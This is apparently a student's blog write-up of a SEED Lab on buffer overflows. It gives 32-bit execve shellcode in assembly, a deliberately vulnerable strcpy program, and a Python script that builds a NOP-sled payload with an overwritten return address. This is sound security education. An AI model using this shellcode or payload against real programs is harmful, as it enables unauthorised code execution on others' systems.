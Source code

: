 ```yaml
---
layout: post
title: Buffer Overflow - Part 1
excerpt:
categories: [assembly, shellcode]
---
```


In this post, I aim to document my findings and observations while performing a SEED Lab.


A shellcode is a piece of code that is used to spawn a command shell or execute specific commands. It is usually written in assembly (a low-level programming language that is specific to a particular computer architecture or processor). Because computers can either be 32-bit or 64-bit, shellcodes will have to be written for specific architectures, however, 64bit computers can always run 32-bit shellcodes.


Given an assembly code `test.s`, such code can be compiled using nasm 

- on linux:

  - `nasm -f elf32 test.s -o test.o` (for 32-bit)
 
  - `ld -m elf_i386 test.o -o test` (for 32-bit)
 
  - `nasm -f elf32 test.s -o test.o` (for 64-bit)
 
  - `ld -m elf_x86_64 test.o -o test` (for 64-bit)

- on windows:

  - `nasm -f win32 test.s -o test.o` (for 32-bit)
 
  - `nasm -f win64 test.s -o test.o` (for 64-bit)
 
  - `gcc test.obj -o test.exe`


In a buffer overflow attack, we need to make use of the machine code, not the assembly code or executable as we need to include the shellcode in our attacking
code. Thus we need to extract the machine code from the executable file or the object file. One way is to use the objdump command.

- `objdump -Mintel --disassemble test.o`

To make it easy to copy the machine code, we can perform further processing on the output.

- `objdump -Mintel --disassemble test.o | cut -f2 | sed 's/ //g' | tr -d '\n'`

<br>

### Using the shellcode in attacking code.

In many cases of buffer-overflow, the vulnerability is caused by the strcpy() function. For the strcpy() function, zero is considered as the end of the string. Therefore, if there is a zero in the middle of the shellcode, the strcpy() fuction will end abruptly, causing the attack to fail. It is therefore necessary that there is no zero in the machine code.

There are many techniques that can get rid of zeros from the shellcode:

<details>
<summary>xoring the 32-bit registers and pushing it to the stack</summary>

  ```assembly
  xor eax eax
  push eax
  ```

</details>

<details>
<summary>assigning an 8-bit number to one of the 8-bits registers</summary>

  ```assembly
  xor eax eax
  mov al, 0x99
  push eax
  ```

</details>

<details>
<summary>using bit-shift to replace filler characters i.e. to turn "xyz#" into "xyz\0"</summary>

  ```assembly
  ;for computers that are little endian i.e. like reading from right to left
  mov eax "xyz#"
  shl eax, 8
  shr eax, 8
  push eax

  ;for computers that are big endian i.e. like reading from left to right
  mov eax "xyz#"
  shr eax, 8
  shl eax, 8
  push eax
  ```

</details>

####  Providing Arguments for System Calls

Linux provides the programmer with system calls that can be easily executed from assembly. These system calls are triggered by using interrupts. `int 0x80` is used to tell the linux kernel to use the EAX, EBX, ECX, and EDX registers to call a function.

When making a system call the 32-bit registers are interpreted as follows:
EAX: this is used to store the function to be called
EBX: this is used to store the first argument to the function
ECX: this is used to store the second argument to the function
EDX: this is used to store the third argument to the function

So in the case of execve we have the function definition as:

```
execve(const char *pathname, char *const _Nullable argv[],
                  char *const _Nullable envp[])
```

This means EAX would store the execve function itself (execve has a system call number of 11), EBX would store the pathname (which in this case is /bin/sh), ECX would store argv[] (which includes the pathname, the arguments, and a null terminator), and EDX would store envp[] (which is the environment variables).

<details>
<summary>Seed lab code</summary>

```assembly
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor eax, eax
      push eax ; Use 0 to terminate the string
      push "//sh" ;
      push "/bin"
      mov ebx, esp ; Get the string address
      ; Construct the argument array argv[]
      push eax ; argv[1] = 0
      push ebx ; argv[0] points to the cmd string
      mov ecx, esp ; Get the address of argv[]
      ; For environment variable
      xor edx, edx ; No env variable
      ; Invoke execve()
      xor eax, eax ; eax = 0x00000000
      mov al, 0x0b ; eax = 0x0000000b
      int 0x80
```

</details>

<details>
<summary>My solution to <code>/bin/sh -c "ls -la"</code></summary>

```assembly
section .text
  global _start
    _start:
      ; Store the "ls -la" string on stack
      mov edx, "la  "
      shl edx, 16
      shr edx, 16
      push edx
      push "ls -"
      mov edx, esp     ; Get the string address for "ls -la"
      
      ; Store the "-c" string on stack
      mov ecx, "-c  "
      shl ecx, 16
      shr ecx, 16
      push ecx
      mov ecx, esp     ; Get the string address for "-c"
      
      ; Store the "/bin/sh" string on stack
      mov ebx, "/sh "
      shl ebx, 8
      shr ebx, 8
      push ebx
      push "/bin"
      mov  ebx, esp     ; Get the string address for "/bin/sh"

      ; Construct the argument array argv[]
      xor eax, eax      ; ensure eax = 0x00000000
      push eax          ; argv[3] = 0
      push edx          ; argv[2] points to "ls -la"
      push ecx          ; argv[1] points to "-c"
      push ebx          ; argv[0] points to "/bin/sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

</details>

<details>
<summary>My solution to <code>/usr/bin/env</code> (supplying environment variables)</summary>

```assembly
section .text
  global _start
    _start:    
      ; Store the environment variable string on the stack
      xor eax, eax
      push eax
      push "1234"
      push "aaa="
      mov eax, esp      ; Get the string address for "aaa=1234"
      
      xor ebx, ebx
      push ebx
      push "5678"
      push "bbb="
      mov ebx, esp      ; Get the string address for "bbb=5678"
      
      mov ecx, "4   "
      shl ecx, 24
      shr ecx, 24
      push ecx
      push "=123"
      push "cccc"
      mov ecx, esp      ; Get the string address for "cccc=1234"
   
      ; For environment variable
      xor  edx, edx     ; edx = 0
      push edx          ; argv[3] = 0
      push eax          ; argv[2] points to "aaa=1234"
      push ebx          ; argv[1] points to "bbb=5678"
      push ecx          ; argv[0] points to "cccc=1234"
      mov edx, esp      ; Get the address of env[]
      
      ; Store the argument string on stack
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "/env"
      push "/bin"
      push "/usr"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/usr/bin/env"
      mov  ecx, esp     ; Get the address of argv[]

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

</details>

#### Using Code Segment

Rather than dynamically constructing all the necessary data structures on the stack, so their addresses can be obtained from the stack pointer `esp`, data can be stored in the code region, and its address is obtained via the function call mechanism.

<details>
<summary>My solution to <code>/bin/sh -c "ls -la"</code> using code segment</summary>

```assembly
section .text
  global _start
    _start:
        BITS 32
	    jmp short two
    one:
 	    pop esi
     	    xor eax, eax
 	
 	    mov [esi+7],  al   ; /bin/sh%0
 	    mov [esi+10], al   ; -c%0
 	    mov [esi+17], al   ; ls -la%0
 	
 	    mov [esi+18], esi  ; put address of "/usr/bin/env" in AAAA
 	
 	    lea ebx, [esi+8]   ; get address of "-c"
 	    mov [esi+22], ebx  ; put address of "-c" in BBBB
 	
 	    lea ebx, [esi+11]  ; get address of "ls -la"
 	    mov [esi+26], ebx  ; put address of "ls -la" in CCCC
 	    
 	    mov [esi+30], eax  ; put NULL in DDDD
 	
 	    mov al,  0x0b      ; pass the execve syscall number as argument
 	    mov ebx, esi
 	    lea ecx, [esi+18]  ; /bin/sh -c "ls -la"
 	    lea edx, [esi+30]  ; NULL

 	    int 0x80           ; execve
    two:
 	    call one
 	    db '/bin/sh*-c*ls -la*AAAABBBBCCCCDDDD'
 	       ;01234567890123456789012345678901234
 	       ;          1         2         3
```

</details>

<details>
<summary>My solution to <code>/usr/bin/env</code> (supplying environment variables) using code segment</summary>

```assembly
section .text
  global _start
    _start:
        BITS 32
	    jmp short two
    one:
 	    pop esi
     	xor eax, eax
 	
 	    mov [esi+12], al   ; /usr/bin/env%0
 	    mov [esi+17], al   ; a=11%0
 	    mov [esi+23], al   ; bb=22%0
 	    mov [esi+32], al   ; ccc=4567%0
 	
 	    mov [esi+33], esi  ; address of /usr/bin/env in AAAA
 	    mov [esi+37], eax  ; put NULL in BBBB (to indicate end of array)
 	
 	    lea ebx, [esi+13]  ; get address of a=11
 	    mov [esi+41], ebx  ; address of a=11 in CCCC
 	
 	    lea ebx, [esi+18]  ; get address of bb=22
 	    mov [esi+45], ebx  ; address of bb=22 in DDDD
 	    
 	    lea ebx, [esi+24]  ; get address of ccc=4567
 	    mov [esi+49], ebx  ; address of ccc=4567 in EEEE
 	
 	    mov al,  0x0b      ; pass the execve syscall number as argument
 	    mov ebx, esi
 	    lea ecx, [esi+33]  ; /usr/bin/env
 	    lea edx, [esi+41]  ; a=11,bb=22,ccc=4567

 	    int 0x80           ; execve
    two:
 	    call one
 	    db '/usr/bin/env*a=11*bb=22*ccc=4567*AAAABBBBCCCCDDDDEEEE'
 	    ;   01234567890123456789012345678901234567890123456789012
 	    ;             1         2         3         4         5 
```

</details>

___

Writing 64-bit shellcode is not too different to writing 32-bit shellcode. The differences are mainly in the registers. For the x64 architecture, invoking system call
is done through the syscall instruction, and the first three arguments for the system call are stored in the rdx, rsi, rdi registers, respectively.
<details>
<summary>64-bit equivalent registers</summary>

- eax = rax
- ebx = rdi
- ecx = rsi
- edx = rdx

</details>

<br>

###  Launching Attack on 32-bit Program When the Buffer Size is Known

When exploiting buffer-overflow vulnerability, to be successful, you need to know the distance between the buffer's starting position and where the return-address is stored.

When the vulnerable program is run, our malicious code is copied on the stack, however, we do not know the memory address of the buffer and base-pointer. Since the source code is available to us, we know the buffer size from the code and we can compile it with gcc `-g` flag so debugging information can be added to the binary. 

<details>
<summary>Book code for vulnerable program</summary>

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
```

</details>

Now we can get the required values needed to prepare the exploit by running gdb

**image**

```
the return address is stored in &buffer + 4
thus the first address we can jump to is &buffer + 8 (this is the memory region that will be filled with NOPs).
This then becomes the value for our return address.

likewise, we can get the differnce between $ebp and &buffer ($ebp - &buffer).
This means that the return address is stored in $ebp + ($ebp - &buffer) + 4.
Thus the first address we can jump to is $ebp + ($ebp - &buffer) + 8.
```

Thus the following code can be used to exploit the buffer-overflow vulnerability (Note: address randomization is disabled)

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
   "\xeb\x15\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x8d\x4b"
   "\x08\x31\xd2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff\x2f\x62\x69\x6e"
   "\x2f\x73\x68\x2a\x41\x41\x41\x41\x42\x42\x42\x42"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb38 + 130           # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

<details>
<summary>Brief explanation of exploit code</summary>
###
</details>


<br>

###  Launching Attack without Knowing Buffer Size (Level 2)

In the Level-1 attack, using gdb, we get to know the size of the buffer. In the real world, this piece of
information may be hard to get. For example, if the target is a server program running on a remote machine,
we will not be able to get a copy of the binary or source code. In this task, we are going to add a constraint:
you can still use gdb, but you are not allowed to derive the buffer size from your investigation. Actually,
the buffer size is provided in Makefile, but you are not allowed to use that information in your attack.
Your task is to get the vulnerable program to run your shellcode under this constraint. We assume that
you do know the range of the buffer size, which is from 100 to 200 bytes. Another fact that may be useful
to you is that, due to the memory alignment, the value stored in the frame pointer is always multiple of four
(for 32-bit programs).
Please be noted, you are only allowed to construct one payload that works for any buffer size within this
range. You will not get all the credits if you use the brute-force method, i.e., trying one buffer size each
time. The more you try, the easier it will be detected and defeated by the victim. That’s why minimizing the
number of trials is important for attacks. In your lab report, you need to describe your method, and provide
evidences.






